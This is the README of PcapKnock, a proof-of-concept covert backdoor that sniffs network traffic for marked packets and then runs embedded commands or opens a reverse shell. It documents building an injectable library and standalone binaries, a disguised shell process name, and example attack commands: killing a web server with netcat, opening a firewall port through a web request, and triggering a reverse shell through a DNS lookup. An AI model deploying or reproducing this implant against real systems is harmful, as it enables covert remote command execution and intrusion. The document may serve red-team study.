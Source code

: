 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable binary.

For legal use only.

Usage
-----
In most cases, the [`build.sh`](./build.sh) script is sufficient to build the
```bash
$ ./build.sh
C Flags:      "-O2 -Wall --pedantic"
Defines:      ""
Linker Flags: "-lpcap -lpthread"
Building library...pcapknock.so
Building static binary...pcapknock.static
Building dynamic binary...pcapknock.dynamic`
```
This will generate three files:
- `pcapknock.so`, an injectable library which spawns a thread on load
- `pcapknock.static`, a statically-linked standalone binary
- `pcapknock.dynamic`, a dynamically-linked standalone binary

Once running, by default PcapKnock will listen on all interfaces (on Linux),
for packets containing one of two triggers, either `COMMAND<command>COMMAND` to
run a command or `CALLBACK<address>:<port>CALLBACK` to spawn a reverse shell to
the given address and port.  See the [Configuration](#Configuration) section
for more information on changing defaults.

Examples
--------
The following examples assume PcapKnock is configured with its default
settings.

Kill apache on 192.168.0.2:
```bash
echo COMMANDpkill apache2COMMAND | nc -u 192.168.0.2 22 #Port doesn't matter
```
Punch a hole in the firewall using a legit web request:
```bash
curl --data 'COMMANDiptables -I INPUT -p tcp --dport 22 -j ACCEPTCOMMAND' https://192.168.0.2
```

Spawn a reverse shell to `192.168.0.3:4444` using a DNS request which will be
recursed to example.com:
```bash
dig CALLBACK192.168.0.3:4444CALLBACK.example.com & nc -nvl 4444
```

Configuration
-------------
Configuration takes place in the form of C defines.  Defaults are set in
[`pcapknock.h`](./pcapknock.h), but can be changed at compile time by passing
`-DOPTION=value` to the compiler.  The included build script passes whatever
is in the `DEFINES` environment variable to the compiler to enable compile-time
configuration.  For convience, the `DEVICE` environment variable may be set to
change the device on which traffic is monitored.

The configurable settings are:

Setting     | Default    | Description
------------|------------|---------------------------------
DEVICE      | `any`      | Device on which to sniff packets
SHELLNAME   | `kexecd`   | Shell process name (i.e. `argv[0]`)
CBMARKER    | `CALLBACK` | Marker for reverse shell addresses
CMDMARKER   | `COMMAND`  | Marker for commands
 | It is unlikely the below will need to be changed |
MAXKNOCK    | 4096       | Maximum command/address length
CLMAXFD     | 10240      | Maximum filedescriptor number to close after fork
CONSTRUCTOR | _unset_    | If defined, runs as a constructor (for injection)
ERROUT      | _unset_    | If defined, outputs error messages to stdout 

Only the first four will likely need to be changed in most cases.
